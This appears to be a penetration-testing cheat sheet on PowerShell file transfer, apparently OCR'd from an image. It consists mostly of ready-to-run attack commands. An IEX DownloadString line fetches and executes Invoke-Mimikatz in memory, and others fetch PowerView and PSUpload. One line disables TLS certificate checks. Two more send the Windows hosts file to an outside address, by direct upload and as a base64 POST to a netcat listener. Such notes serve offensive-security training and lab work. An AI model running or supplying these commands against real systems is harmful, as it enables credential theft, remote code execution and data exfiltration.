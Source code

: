> File download with method DownloadString

Example downloading Mimikatz:

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

> Method Invoke-WebRequest:

Example downloading PowerView:

```powershell-session
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

> Common Errors with PowerShell:

There is a common error in PowerShell downloads related to the secure SSL/TLS channel if the certificate is not trusted. That error can be bypassed.

Example downloading PSUpload:

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```powershell-session
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

> Example to Upload a File:

```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

> PowerShell Base64 Web Upload:

Another way to use PowerShell and base64 encoded files for upload operations is by using `Invoke-WebRequest` or `Invoke-RestMethod` together with Netcat. We use Netcat to listen in on a port we specify and send the file as a `POST` request. Finally, we copy the output and use the base64 decode function to convert the base64 string into a file.

Example:

```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
